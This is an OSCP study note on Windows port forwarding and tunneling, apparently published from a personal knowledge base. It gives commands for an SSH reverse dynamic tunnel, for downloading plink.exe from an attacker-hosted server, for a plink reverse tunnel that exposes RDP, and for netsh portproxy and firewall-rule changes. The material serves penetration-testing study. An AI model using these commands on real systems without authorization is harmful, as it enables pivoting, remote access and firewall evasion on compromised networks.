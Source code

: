 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/10-port-redirection-and-tunneling/2-windows-port-forwarding/"}
---
```


- OpenSSH comes with Windows since April 2018
- On machines with SSH installed you find: scp.exe, sftp.exe, ssh.exe, etc. in %systemdrive%\\Windows\\System32\\OpenSSH
-----
## SSH Remote Dynamic Port Forwarding:
1. Start SSH server on attacker machine:
```bash
sudo systemctl start ssh
```
2. Locate ssh.exe in cmd on target:
```powershell
where ssh
```
3. Check version of ssh:
```powershell
ssh.exe -V
```
4. Set up port forwarding:
```bash
ssh -N -R 2345 crabfeather@192.168.45.180
```
5. Use with proxychains and win!

-----------
## Plink.exe Remote Port Forwarding + RDP binding:
1. Download the plink.exe binary to the target:
``` bash
#Start server:
sudo systemctl start apache2

#Download binary:
powershell wget -Uri http://192.168.45.X/plink.exe -OutFile C:\Windows\Temp\plink.exe
```
2. Start port forwarding (use Windows' loopback IP + its listening RDP port to be able to use RDP from kali):
```powershell
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l <kaliuser> -pw <kalipassword> -R 127.0.0.1:2345:<outip>:<outport> <kali-ip>
```
Example: Port forwarding using Windows' loopback IP + its listening RDP port to be able to use RDP from kali:
```powershell
cmd.exe /c echo y | C:\Windows\Temp\plink.exe -ssh -l <kaliuser> -pw <kalipassword> -R 127.0.0.1:4455:127.0.0.1:3389 <kali-ip>
```

------------------
## Netsh local port forwarding + firewall poking:
- Requires Administrative privs
1. Set up port forwarding:
```powershell
netsh interface portproxy add v4tov4 listenport=2222 listenaddress=192.168.230.64 connectport=22 connectaddress=10.4.230.215
```
2. Confirm it is working:
```powershell
netsh interface portproxy show all
```
3. Poke hole in firewall outwards:
```powershell
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.230.64 localport=2222 action=allow
```
4. Delete rules afterwards:
```powershell
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
